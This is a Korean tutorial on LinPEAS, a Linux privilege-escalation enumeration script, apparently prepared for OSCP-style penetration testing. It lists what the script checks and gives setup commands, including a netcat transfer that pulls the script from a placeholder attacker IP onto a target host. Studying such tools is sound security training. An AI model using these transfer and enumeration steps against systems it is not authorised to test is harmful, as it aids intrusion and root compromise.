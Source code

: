 LinPEAS는 **Linux Privilege Escalation Awesome Script**의 줄임말로,
🔍 **리눅스 시스템에서 권한 상승(Privilege Escalation) 가능성을 자동으로 탐색**해주는 스크립트입니다.

---

## 🧠 1. 개념 요약

| 항목      | 설명                                                                                          |
| --------- | --------------------------------------------------------------------------------------------- |
| 이름      | LinPEAS (Linux Privilege Escalation Awesome Script)                                           |
| 목적      | Linux 환경에서 루트 권한 상승에 사용할 수 있는 취약점, 설정 미스, 백도어 등을 자동으로 찾아줌 |
| 언어      | Bash Script                                                                                   |
| 사용 환경 | 리눅스 타깃 시스템에 업로드 후 실행                                                           |

---

## 🎯 2. 역할 & 목적

- 일반 사용자 권한으로 접속한 리눅스 시스템에서...

  - 권한이 잘못 설정된 파일, 디렉터리
  - SUID/SGID 바이너리
  - 환경 변수 설정
  - crontab 작업
  - 네트워크 정보
  - 패치되지 않은 커널 취약점
  - Docker/LXD 컨테이너 권한 우회
  - 가능한 명령어 실행 권한(`sudo`, `capabilities` 등)

➡️ 이런 **권한 상승 기회**들을 자동으로 탐지

---

## 🛠️ 3. 설치 & 실행 방법 (수동 OSCP 스타일)

### 1️⃣ 공격자 머신에서 LinPEAS 다운로드

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

### 2️⃣ 대상 시스템에 전송 (예: Netcat 사용)

```bash
# 공격자 측
nc -lvp 4444 < linpeas.sh

# 대상 시스템
nc <attacker_ip> 4444 > linpeas.sh
chmod +x linpeas.sh
```

